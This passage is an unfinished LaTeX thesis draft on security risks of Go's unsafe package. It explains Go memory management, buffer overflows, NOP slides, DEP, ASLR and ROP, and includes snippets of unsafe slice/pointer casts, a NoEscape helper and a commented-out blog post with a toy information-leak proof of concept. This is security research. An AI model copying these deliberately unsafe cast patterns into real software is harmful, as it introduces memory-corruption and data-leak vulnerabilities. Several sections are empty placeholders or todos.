still exist can continue to access the memory even though the function stack has vanished.
Otherwise, it can be placed on the stack.
The \acrshort{EA} analysis employed by the Go compiler works by checking for each variable that is declared in a
function whether a reference to it is stored in another value or passed to another function.
If there is a reference stored in another object, this object has to be checked too, and if it escapes then so does the
original variable.
The same is true for functions: if the variable gets passed to another function then the \acrshort{EA} algorithm
transitively looks into that function and determines if the value escapes there.
If it does, then it must also be treated as an escaped value in the original function.
Finally, if the function returns a reference to the variable then it obviously escapes as well.


%% ---------------------------------------------------------------------------------------------------------------------

\subsection{Garbage Collection (GC)}\label{subsec:background:memory:gc}

The Go runtime uses a garbage collector (\acrshort{GC}) that analyzes which values can still be referenced by active
pointer values, and automatically frees all unreachable values.
This technique prevents \textit{use-after-free} vulnerabilities because there is no explicit deallocation.
Go uses a move-and-sweep GC that runs concurrently with all other threads of a program to free unused heap
memory~\cite{sibiryov2017}.
It is triggered by one of two conditions, either when the heap usage has increased to a specific size (usually when the
usage has doubles since the last \acrshort{GC} run), or after a fixed time has passed without any \acrshort{GC} runs.
The \acrshort{GC} takes all variables that are present in the scope of the program and marks them as live.
Then, it recursively follows all pointer types within live variables and marks their target values as live, too.
After this marking phase has completed, the sweep phase frees all memory that is not marked as live.
Finally, the markings are reset and a new \acrshort{GC} run can be triggered.

Figure~\ref{fig:gc-visualization} shows a visualization of the marking phase in a \acrshort{GC} run.
The variables in scope can be either on the stack, which is not managed by the \acrshort{GC}, or on the heap, in which
case they are marked as being live as well.
The arrows indicate references from pointer types to their targets, and the blue values on the heap are the ones marked
as live.
The white heap values will be freed in the sweep phase of the \acrshort{GC}.

\begin{figure}[htp!]
    %\vspace{2mm}
    \centering
    
\includegraphics[width=0.6\textwidth]{assets/figures/chapter3/gc-visualization.pdf}
    \caption{Garbage Collector Visualization}
    \label{fig:gc-visualization}
    %\vspace{-10pt}
\end{figure}



%% ---------------------------------------------------------------------------------------------------------------------

\section{Exploit Techniques and Mitigations}\label{sec:background:exploit-techniques}

A frequent security vulnerability in programs that use traditional systems languages like C are buffer overflows.
They happen when an array variable, for example a string, is too short for the data that is written to it, causing the
data to overflow into and overwrite adjacent memory.
Overflows can happen anywhere in the memory, however a common source of security problems are stack-based buffer
overflows.
When a buffer variable is placed on the stack and too much data gets written to it, the data will be written to higher
memory addresses, which means after overwriting the other local variables and saved registers they can cause the saved
return address to get changed.
When an attacker can control the data that is placed there, they can change the program flow by carefully choosing the
address that ends up being jumped to after the current function returns.

A common problem with data placed on the heap is that if it gets freed but then the program continues to try and use the
data, it is possible that the memory at that address has already been reused and new data is accessed, potentially
reading or writing data from another thread.
However, the same can happen with data on the stack if there are references to the data that remain after the stack
frame has been destroyed, as dereferencing that address can then access memory that belongs to a different frame and
thus potentially change arbitrary data including the saved return address.
This kind of problem is called \textit{use-after-free}.


%% ---------------------------------------------------------------------------------------------------------------------

\subsection{Buffer Overflow}\label{subsec:background:exploit-techniques:buffer-overflow}

Buffer overflows and \textit{use-after-free} vulnerabilities are a very common root cause for security problems in
traditional systems programming languages, as those usually offer direct access to the memory in terms of raw pointers
and manual allocations~\cite{larochelle2001}.
The most basic approach to inject arbitrary code is to place machine instructions into the exploit input data, which
will then be written to the stack.
They can be before or after the address that gets overwritten at the position of the saved return instruction pointer,
but usually it is placed after because there is more space available.
The instruction pointer is then set to the start address of the machine instructions payload.
Since stack addresses can be slightly unpredictable in practice, for example because environment variables with
different lengths might be located on the stack, a \textit{NOP-slide} can be used to make the exploit more robust.
\textit{NOP}, or \textit{no-op}, is a machine instruction that does nothing at all, the processor simply continues with
the following instruction.
A \textit{NOP-slide} then is a series of such instructions.
Using this, it is sufficient to overwrite the return instruction pointer with an address somewhere within the
\textit{NOP} instructions to make the processor go through all remaining of them until it reaches the exploit code,
similar to sliding down a slope.
Thus, the address does not have to match the exact start of the payload code anymore, instead it can have a tolerance.
Figure~\ref{fig:stack-smashing-payload} shows a visualization of an example input data used to spawn a shell that an
attacker can then use to execute arbitrary code.

\begin{figure}[htp!]
    %\vspace{2mm}
    \centering
    
\includegraphics[width=0.8\textwidth]{assets/figures/chapter2/stack-smashing-payload.pdf}
    \caption{Stack smashing payload to inject exploit code}
    \label{fig:stack-smashing-payload}
    %\vspace{-10pt}
\end{figure}



%% ---------------------------------------------------------------------------------------------------------------------

\subsection{Data Execution Prevention (DEP)}\label{subsec:background:exploit-techniques:dep}

However, such a type of exploit does not work an modern operating systems because they employ mitigation techniques
against this.
Executing machine instructions that are placed in memory that is part of the stack is prevented because the memory pages
containing the stack are marked as non-executable.
This technique is called Data Execution Prevention (\acrshort{DEP}).
It takes care of having sections in memory be either executable or writable, but not both.
That way, attackers can not easily write code into the memory and then jump into this code.


%% ---------------------------------------------------------------------------------------------------------------------

\subsection{Address Space Layout Randomization (ASLR)}\label{subsec:background:exploit-techniques:aslr}

To work around \acrshort{DEP}, attackers can reuse existing functions in the binary, because as part of the text section
these are located on executable (but not writable) memory pages.
There is Address Space Layout Randomization (\acrshort{ASLR}), which loads dynamically-linked libraries into random
memory positions to avoid having predictable function addresses usable by attackers for code that is part of standard
libraries, like the C library \textit{glibc}.
However, \acrshort{ASLR} does not apply to statically-linked code, which the Go compiler mostly creates.


%% ---------------------------------------------------------------------------------------------------------------------

\subsection{Return Oriented Programming (ROP)}\label{subsec:background:exploit-techniques:rop}

Return-oriented programming (\acrshort{ROP}) is a specific technique for reusing code that suggests jumping to very
small so-called gadgets, which are sequences of two or few more machine instructions that do not modify the stack
pointer register and end with a return instruction \jl{add citation}.
With these properties, gadgets can be chained because after the execution of a fragment the return instruction fetches
the next address to jump to from the stack, which the attacker can control.
Depending on the available \acrshort{ROP} gadgets, the attacker can therefore concatenate them and thus write a program
with a limited set of assembler instructions available.
The Go standard library is very large and thus provides many available gadgets.
This makes exploiting a buffer overflow, once it exists in a Go program, even easier compared to a C program where an
attacker would have to work around \acrshort{ASLR}, for example.


%% ---------------------------------------------------------------------------------------------------------------------

\section{Dependency Management in Go}\label{sec:background:dependencies}

To break code into logical units that can be maintained separately and allow reusing them, Go offers a dependency
management system.
The smallest possible unit is a Go package.
A package can contain one or more source code files which must all be in the same directory.
It has a name which should match the name of the directory containing the source files.
There can not be more than one package in the same folder.
Identifiers such as function and variable names must be unique in the scope of the same package and can be accessed
directly.
Therefore, developers can split their code into individual code files without restrictions to organize a single package.
When accessing code in a different package, the package name must be used as prefix in front of the identifier name.
Furthermore, the package must be imported using an \textit{import} statement at the beginning of the file.
Package imports are valid only within a file, not a whole package, and thus must be repeated in all files that access
the external package.
It is only possible to access exported fields from another package, which is indicated by starting the identifier with
a capital letter.
When importing the package, it is necessary to specify the complete path to the package, the name is not sufficient on
its own.
The import path is made up of the directory tree leading to the package directory, separated by forward slashes.
For example, a valid import path would be \textit{my-application/storage/database}.


%% ---------------------------------------------------------------------------------------------------------------------

\subsection{GOPATH and GOROOT}\label{subsec:background:dependencies:gopath}

To allow sharing code with other developers and implementing reusable libraries, it is possible to download external
packages using the \textit{go get} command, which can fetch packages using \acrshort{HTTP}, Git, or other means.
The import path usually begins with a \acrshort{DNS} host such as \textit{github.com} which hosts the package code.
The host part is then called \textit{registry}.
However, a drawback is that this technique does not allow to specify a version of the imported package, which makes it
very hard to publish stable libraries.

\todo{Explain GOPATH and GOROOT}


%% ---------------------------------------------------------------------------------------------------------------------

\subsection{Go Module System}\label{subsec:background:dependencies:modules}

Starting with the release of Go \checkNum{1.11}, the development of the module system has fixed this by introducing a
new unit of code organization.
Modules contain one or more packages, and have a name and import path similar to packages, which can in fact be the name
of a root package in the module.
Furthermore, modules are required to be available as a revision control repository like Git and are versioned.
A project can define dependencies to specific versions of other modules, which resolve to the packages imported in the
code.
Thus, it is possible to require a specific version of an external package.
Dependencies can be transitive, because imported modules can have dependencies to other modules themselves,
forming a dependency tree.
Figure~\ref{fig:dependency-model} shows an example of the relations between the different units of code organization
used in Go.
The \textit{github.com/example/example} module is the main application module and its current version is
\textit{v2.0.0}.
It contains three separate packages \textit{A}, \textit{B}, and \textit{C}, all of which are composed of individual Go
source files.
The module depends upon two other modules \textit{X} and \textit{Y}, both of which are imported with a specific version.
These again contain one or more packages with source files, and further depend on more modules.
The \textit{Y} module is effectively imported in two different versions, \textit{v1.0.1} and \textit{v5.3.0}, so both
their sources will be compiled and included in the resulting binary.

\begin{figure}[htp!]
    %\vspace{2mm}
    \centering
    
\includegraphics[width=\textwidth]{assets/figures/chapter2/dependency-model.pdf}
    \caption{Dependency management model used by Go}
    \label{fig:dependency-model}
    %\vspace{-10pt}
\end{figure}


Projects lock their dependencies including versions in a file called \textit{Go.mod}.
When the code is built, the Go compiler toolchain will automatically figure out which modules need to be downloaded and
get the code.
There are however still many projects that do not use the module system and \textit{Go.mod} file yet, because it is only
stable since recently with the release of Go \checkNum{1.13} in \checkNum{September 2019}.


%% ---------------------------------------------------------------------------------------------------------------------

\section{Static Code Analysis}\label{sec:background:static-code-analysis}

Static code analysis describes techniques that examine source code for particular properties, such as code metrics or
the presence of specific bugs, without running the program.
In the last point, it is different from dynamic code analysis which executes the code and employs runtime checks.
Using static code analysis, it is possible to automatically test if the source code matches certain expectations.
Based on the level of abstraction that an analysis tool is looking at, it can be classified into lexical, syntactic,
or semantic analysis.
Lexical analysis deals with the source code as text, with the most common purpose being coding style enforcement.
For syntactic analysis, the code is parsed to obtain an abstract syntax tree (\acrshort{AST}), which allows for example
to do type checking and reporting code metrics such as the cyclomatic complexity or McCabe metric~\cite{watson1996} or
the number of \unsafe{} usages, as described in Chapter~\ref{ch:go-geiger}.
Finally, semantic analysis also takes care of the control and data flow, which describe what statements in the code can
be executed in which order and how data is being transferred between variables.
This allows for example to detect unused or dead code, or detect whether a variable is used before it is initialized.
To do this, a control flow graph (\acrshort{CFG}) is used.


%% ---------------------------------------------------------------------------------------------------------------------

\subsection{Abstract Syntax Tree (AST)}\label{subsec:background:static-code-analysis:ast}

Figure~\ref{fig:ast} shows an example of an \acrshort{AST}.
It represents a code fragment of just one statement, which is \textit{x := 3 + 5}.
Source code of programming languages is a formal language that follows a grammar, which is its syntax.
Syntactically valid programs are words in the formal language and can be represented as the tree of grammar rules used
to construct the word.
Such a grammar construction begins with a start symbol, such as \textit{AssignStmt} in this case.
It can have children, which are recursively substituted for concrete values.
In Figure~\ref{fig:ast}, the right hand side of the assignment is an addition, an instance of a binary expression, with
basic integer literals 3 and 5 used for the addition.
The \acrshort{AST} shows the composition of the source code into logical units of growing size, with the leafs being
identifiers, literals, or any other nodes that do not contain further children, such as an empty return statement for
example.
To obtain the \acrshort{AST}, it is possible to use the standard parser bundled with the language's compiler.
An advantage of running static analysis steps on the \acrshort{AST} is that it is independent from any concrete lexical
representation such as white space.
Identifier names can also be easily replaced by different names in the abstract representation, which makes the
\acrshort{AST} perfect for name refactoring operations or recognizing specific types even if they are aliased in the
source code.

\begin{figure}[htp!]
    %\vspace{2mm}
    \centering
    
\includegraphics[width=0.5\textwidth]{assets/figures/chapter2/ast.pdf}
    \caption{Abstract syntax tree visualization for source code "x := 3 + 5"}
    \label{fig:ast}
    %\vspace{-10pt}
\end{figure}



%% ---------------------------------------------------------------------------------------------------------------------

\subsection{Control Flow Graph (CFG)}\label{subsec:background:static-code-analysis:cfg}

In contrast, the \acrshort{CFG} is not purely based on syntax anymore, but needs semantic analysis to be constructed.
It is a directed graph showing possible execution paths through the code segments.
It can contain cycles and is not necessarily connected (neither strongly nor weakly).
Nodes in the control flow graph denote logical pieces of the source code in the sense that they form a unit of
execution.
They can be seen as an atomic step of computation.
While \acrshort{CFG} nodes are also nodes in the \acrshort{AST}, there are \acrshort{AST} nodes that are not a
\acrshort{CFG} node.
Edges in the \acrshort{CFG} then represent all possible paths of execution.
An example of a \acrshort{CFG} can be seen in Figure~\ref{fig:cfg}.
It shows a simple loop: \textit{for x < 5 \{ x += 1 \}}.

\begin{figure}[htp!]
    %\vspace{2mm}
    \centering
    
\includegraphics[width=0.25\textwidth]{assets/figures/chapter2/cfg.pdf}
    \caption{Control flow graph for source code "for x < 5 \{ x += 1 \}"}
    \label{fig:cfg}
    %\vspace{-10pt}
\end{figure}


There are two logical steps of execution in this code example.
After any previous code is executed and control flows to the \textit{for} loop, first the loop condition \textit{x < 5}
is checked.
Then, there are two outgoing edges on the node because the condition can be either true or false.
If it is true, then control flows to the assignment node representing the \textit{x += 1} statement.
That node then has an edge back to the loop condition node to check whether the loop should be run again.
Otherwise, the code following behind the loop is executed.
Such a \acrshort{CFG} is an excellent tool to detect dead code, which would be represented by an isolated connectivity
component in the graph.
Furthermore, using node annotations that indicate whether variables are read or assigned, it is possible to detect
control flow anomalies such as read-before-write, which would show that a variable is used before it is initialized.
It is also useful to detect where a variable is assigned for the last time before a particular statement, thus what
value it has at time of execution of that statement.


%% ---------------------------------------------------------------------------------------------------------------------

\subsection{Go Linters \toolVet{} and \toolGosec{}}\label{subsec:background:static-code-analysis:linters}

There are a number of existing static code analysis tools for the Go programming language.
The most official is \toolVet{}\footnote{\url{https://golang.org/cmd/vet}}, which is included as part of the main Go
\acrshort{CLI} and thus is installed by default with the Go compiler.
As described in more detail in Section~\ref{sec:go-safer:implementation} about the implementation of \toolSafer{}, it
is built using a modular system of individual analysis steps.
Examples of these steps include checking if returned values from functions are unused, type checking of the format
specifiers used in the \textit{fmt.Printf} function with respect to the concrete parameters, or detecting unreachable
code.
Another static analysis tool with a focus on security is \toolGosec{}\footnote{\url{https://github.com/securego/gosec}}.
Similar to \toolVet{}, it contains a number of different rules that the source code is checked against, for example if
insecure hash functions are used, template strings contain unescaped data, or returned error values from functions are
actually checked.
Such static analysis tools that detect insecure code or common mistakes are called linters.


\chapter{Unsafe Security Problems}\label{ch:unsafe-security-problems}

This chapter provides an in-depth security analysis of unsafe code usages.


\section{Buffer Overflow Vulnerabilities}

\subsection{Information Leak}

\subsection{Code Flow Redirection}

Notes: Go uses no \acrshort{aslr}, binaries are statically linked and the standard library is huge.
Therefore binaries provide a lot of ROP gadgets and spawning a shell from a buffer overflow is easier than with a
comparable C program.

Anschauen: k8s.io/apiserver/pkg/authentication/token/cache/cached\_token\_authenticator.go:235

\begin{lstlisting}[language=Golang, label=lst:todo-unsafe-snippet, caption=Todo: unsafe code snippet?]
// toBytes performs unholy acts to avoid allocations
func toBytes(s string) []byte {
    return *(*[]byte)(unsafe.Pointer(&s))
}
\end{lstlisting}


\subsection{Code Injection using ROP}

\begin{figure}[htp!]
    %\vspace{2mm}
    \centering
    
\includegraphics[width=0.5\textwidth]{assets/figures/chapter3/protocol.pdf}
    \caption{Example Protocol to Motivate Threat Model for Unsafe Cast}
    \label{fig:protocol-threat-model}
    %\vspace{-10pt}
\end{figure}

\begin{figure}[htp!]
    %\vspace{2mm}
    \centering
    
\includegraphics[width=\textwidth]{assets/figures/chapter3/payload.pdf}
    \caption{Stack Smashing Payload to Redirect Code Flow}
    \label{fig:stack-smashing-payload}
    %\vspace{-10pt}
\end{figure}



\section{Incorrect Slice and String Casts}

\subsection{Implicit Read-Only}

\subsection{GC Race Use-After-Free}

Note: to use unsafe pattern 4 in syscalls, a conversion to uintptr must occur within the call statement for the compiler
to notice it.
If you have a function that already takes a uintptr argument, like the sys package uses a lot, then that function when
doing the actual syscall must cast the uintptr to uintptr again to make the no-garbage-collect magic happen.

\begin{figure}[htp!]
    %\vspace{2mm}
    \centering
    
\includegraphics[width=\textwidth]{assets/figures/gc.pdf}
    \caption{Garbage Collector Visualization}
    \label{fig:gc-visualization}
    %\vspace{-10pt}
\end{figure}

\begin{figure}[!t]
    \vspace{2mm}
    \centering
    
\includegraphics[width=0.4\textwidth]{gfx/figures/gcrace-vuln.pdf}
    %
\includegraphics[width=0.48\textwidth]{gfx/figures/gcrace-vuln.pdf}
    \caption{GC race and escape analysis flaw}
    \label{fig:gcrace-vuln}
    \vspace{-8pt}
\end{figure}



\subsection{Escape Analysis Use-After-Free}

No-Escape function pattern:

\begin{lstlisting}[language=Golang, label=lst:no-escape-function, caption=No-Escape Function Pattern]
// NoEscape hides a pointer from escape analysis.  noescape is
// the identity function but escape analysis doesn't think the
// output depends on the input.  noescape is inlined and currently
// compiles down to zero instructions.
// USE CAREFULLY!
//go:nosplit
func NoEscape(p unsafe.Pointer) unsafe.Pointer {
    x := uintptr(p)
    return unsafe.Pointer(x ^ 0)
}
\end{lstlisting}

Is the identified unsafe cast pattern safe if it is done in one statement?

\begin{lstlisting}[language=Golang, label=lst:cast-1-statement, caption=Unsafe slice cast in one single statement]
strHeader := (*reflect.StringHeader)(unsafe.Pointer(&s))
return *(*[]byte)(unsafe.Pointer(&reflect.SliceHeader{
    Data: strHeader.Data,
    Cap:  strHeader.Len,
    Len:  strHeader.Len,
}))
\end{lstlisting}

The garbage collector race exploit does not work anymore with this.
This might be because of the time delay, because the assembly looks IDENTICAL!

Escape analysis however can still not see the connection, the escape analysis exploit still works.


\section{Architecture-Dependent Types}

%%% -----------------------------------------------------------------------------
%
%\section{Submission of fixes to open-source libraries}\label{sec:vulnerability-fixes}
%
%
%
%
%%% -----------------------------------------------------------------------------
%
%\chapter{Blog Post Series}\label{ch:blog}
%
%
%%% -----------------------------------------------------------------------------
%
%\section{Part 1}
%
%Go in general is a safe language. It has memory builtin safety measures that should avoid common buffer overflow
%vulnerabilities, like they often exist in C programs.
%
%The unsafe standard library package defeats this memory safety. With unsafe.Pointer, we can create a pointer of
%arbitrary type. The compiler can't and won't enforce safety measures on this type of pointer.
%
%In this first of a four-part, weekly series on practically exploiting unsafe.Pointer usage, we will cover the possibilities
%that come with unsafe.Pointer and look at a first potential vulnerability: an information leakage.
%
%
%\textbf{What is this about?}
%
%So why did I write this blog post? I am a computer science student at TU Darmstadt, Germany. I am currently writing my
%Master's thesis on an analysis of real-world usage patterns of the Go unsafe package. As part of the research, I look
%into actual use cases of unsafe.Pointer references in the biggest open source Go projects, analyze and categorize them,
%and identify potentially dangerous patterns and vulnerabilities. I am also comparing the unsafe features of Go to the
%unsafe mode in Rust [[4]](references), as there are some similarities.
%
%As a first step in finding out which usage patterns are dangerous, I created some artificial proof of concepts that
%demonstrate applications that are vulnerable due to a wrong use of unsafe.Pointer. While doing this, I figured this
%could be an interesting read or even short exercise for Go developers. If you have some ideas or thoughts on this topic,
%I'd be very happy to know!
%
%So grab your favorite beverage, fire up your code editor of choice, and enjoy this little journey covering different
%types of vulnerabilities. We will look at the exact problem in the code and explain why it arises, and discuss possible
%means of introducing such a problem in the real world.
%
%
%\textbf{Buffer overflows, part 1: the stack layout }
%
%Let's start with a short discussion of the stack. A stack is a data structure that grows like a tower of things. New
%items can be pushed onto the stack, and items on the stack can be removed or popped. A CPU uses a stack to keep track
%of data that is meaningful in the current context. Most importantly, it is used for calling functions. The stack used
%in the x8664 architecture is an area in the RAM which is identified by the stack pointer register rsp.
%
%Pushing something onto the stack is done be decrementing the stack pointer by some amount, e.g. a processor word (8 byte
%on 64-bit architecture). Then the data is written to the address where the stack pointer now points to. Decrementing the
%stack pointer marks the memory region as belonging to the stack. When popping values from the stack, the stack pointer
%is incremented again, marking the memory region as free again. Because the stack pointer decrements with new data, we
%can say that the stack grows to the bottom, starting from high addresses in memory and growing to low addresses.
%
%
%When the current program calls a function, the return address as well as some function parameters (more on this in part
%3 of this series) are pushed onto the stack, and the processor jumps to the first instruction of the function. This jump is done
%by setting the instruction pointer register rip. Then, when the function returns (by executing the ret instruction),
%the return address is popped from the stack and put into the rip register. More on this can be read in [[2]](references).
%
%The function can store local variables on the stack (inside its so-called stack frame). These are pushed onto the stack
%after the return address and saved registers, meaning the variables are at lower memory addresses than the return
%address. Furthermore, variables on the stack are located directly next to each other. This is why bounds checking is
%very important for buffers. Reading or writing outside the bounds of a variable means we are reading or writing other
%variables. We call this buffer overflow.
%
%This is a visualization of a stack frame for a function:
%
%
%\textbf{Go memory safety}
%
%Go employs some safety techniques that prevent buffer overflows, among other vulnerabilities. The type system strictly
%encodes the buffer length of variables, e.g. we have [8]byte and [16]byte as completely different types with no
%casting from the short buffer to the long buffer. This prevents the misuse of memory regions which will eventually lead
%to a potentially exploitable buffer overflow.
%
%Dangerous operations common to C programs such as pointer casting and the infamous, no-bounds-checking gets() function
%are therefore impossible with safe Go programs.
%
%However, there exists the unsafe package and with it the unsafe.Pointer type [[1]](references). This pointer type
%is special in that it can participate in type operations that would otherwise be forbidden:
%
%1. we can cast any pointer type into unsafe.Pointer
%2. we can cast unsafe.Pointer into any pointer type
%3. we can cast unsafe.Pointer into uintptr, which is essentially the address as an integer
%4. we can cast uintptr into unsafe.Pointer
%
%Points 1 and 2 allow type-casting between arbitrary types, and points 3 and 4 allow pointer arithmetic. With these
%powers however comes great responsibility: using them removes the safety net of Go, meaning we're back at the security
%madness of plain C code. The unsafe package must therefore be used only with extreme caution.
%
%In the following proof of concepts, we will demonstrate some of the potential vulnerabilities that can be introduced
%surprisingly fast when using unsafe.Pointer.
%
%
%\textbf{Information leakage POC}
%
%In this short proof of concept, let's assume there is a buffer of harmless, public data. It is called harmlessData
%and it might store e.g. the version of the program, or the public display name of a logged-in user.
%
%Behind it, there is a declaration of a secret data buffer. For the sake of the argument, imagine that it might be some
%private information about a logged-in user, e.g. their password hash or a certificate private key.
%
%func main()
%// this could be some public information, e.g. version information
%harmlessData := [8]byte'A', 'A', 'A', 'A', 'A', 'A', 'A', 'A'
%// however, this could be critical private information such as a private key
%secret := [17]byte'l', '3', '3', 't', '-', 'h', '4', 'x', 'x', '0', 'r', '-', 'w', '1', 'n', 's', '!'
%// ...
%
%
%Next, the buffer is cast. Using the unsafe.Pointer type, we can do any type casting we want, defeating the Go memory
%safety measures. Here, we cast the buffer into a new byte buffer, but with a bigger size. After this, we print the new
%(dangerous) buffer.
%
%// ...
%// (accidentally) cast harmless buffer into a new buffer type of wrong size
%var dangerousData = (*[8+17]byte)(unsafe.Pointer(harmlessData[0]))
%// print (misused) buffer
%fmt.Println(string((*dangerousData)[:]))
%
%
%Running this script will read the newly created, dangerous buffer. The length information will be inappropriate, and
%thus the program will read memory after the end of the harmless data, revealing the secret data:
%
%go run main.go
%AAAAAAAAl33t-h4xx0r-w1ns!
%
%This is an information leak, because we read and send more data than we wanted.
%
%But how could this ever happen? Let's assess a threat model!
%
%
%\textbf{Threat model}
%
%Admittedly, when the buffer definition and cast are located very close to each other, it is hard to imagine that such
%a bug would go unnoticed in a production software project. But I would argue that it is far less unlikely for such
%mistakes to happen if we add some human factors into the equation.
%
%Imagine you work at a large software company which is building some application that has a client/server communication
%model. The development of the server and client applications has been separated into different teams, and you work in
%the server team. Now, at some meeting a couple of months ago, you and your colleagues drafted and agreed upon an API
%specification for the binary communications protocol that you want to use between the client and server. The protocol
%features a request definition that the client sends to the server. The request data is serialized into a binary stream.
%Its structure looks like this:
%
%![Binary protocol structure](assets/protocol.svg)
%
%It is a super simple protocol that doesn't even feature variable-length messages. It is just a static byte object with
%a version, message type, and the actual data. Similar to the request, there is also a response type that looks the same.
%Now, you and your team printed the diagram weeks ago and put it on your wall to ensure all developers can see it promptly.
%But what none of you realized is that the client development team agreed on a new version of the protocol, which has a
%256 bytes data field to reduce the over-the-wire packet size.
%
%When you implement the server, you are now adding a simple buffer to store request and response objects for later
%processing. You look at the diagram on the wall and determine that the size of protocol messages is guaranteed to be
%exactly 516 byte, so initialize a [516]byte variable. To avoid unnecessary copying of the data structure before
%reaching your buffering function, your team has decided to pass along a reference to the request object. You are using
%an unsafe.Pointer reference to simplify casting operations. The function you are implementing looks like this:
%
%go
%func bufferrequest(req unsafe.Pointer)
%var buf [516]byte
%buf = *(*[516]byte)(req)
%// use buf for some operations
%
%
%
%Now, the problem is that the req parameter, referencing the source data structure somewhere in memory, was created
%with the new protocol version in mind, i.e. the request packet only takes 260 bytes. But your new buffer is reading
%516 bytes, that is 256 bytes too many! When the buffer is sent somewhere else, or shown to the user, you might read
%and publish 256 extra bytes, containing potentially secret information.
%
%A similar thing could happen in the other direction, when the response object is used.
%
%When you push this new function, and your team does a thorough code review, all your colleagues see the buffer allocation,
%immediately look at the wall and verify that the request data packet indeed takes exactly 516 bytes. None of them catches
%the mistake and the software is shipped.
%
%The problem was not a miscalculation, but a miscommunication within the organization, combined with a lack of defensive
%programming techniques and a missing mindset of the dangers that come with the use of unsafe.Pointer references.
%
%By the way, reading and sending more data than the correct amount might make you remember one of the most dangerous bugs
%of recent times: the famous Heartbleed bug in OpenSSL [[3]](references), where a missing bounds check cause a read
%buffer overrun and leaked private information from the process memory. However, this example is different in that the
%length is **not provided by an attacker**. The length information that OpenSSL failed to verify was supplied as part of
%the input data to OpenSSL. Here, I crafted an example where the length mismatch is statically coded into the binary
%because of a mistake the programmers made. A user-supplied length overrun is much more dangerous because it does not
%cause problems in every run of the software, which makes it much harder to detect.
%
%An example more similar to the Heartbleed bug would require a protocol definition with a length field, and a server
%application crafting a buffer using that length information. This is possible when manually crafting slices in Go using
%the reflect.SliceHeader structure, and we will explore that in the next part of this series!
%
%
%\textbf{Proof of concept code}
%
%I published the proof of concept code for this post, as well as the code for the following parts 2 to 4, in a Github
%repository:
%
%If you'd like to check out the complete code and run it for yourself, you can save yourself some typing by using this
%repository.
%
%
%
%%% -----------------------------------------------------------------------------
%
%\section{Part 2}
%
%In this second part, we will evolve from reading memory to redirecting the code flow. This means we will be controlling
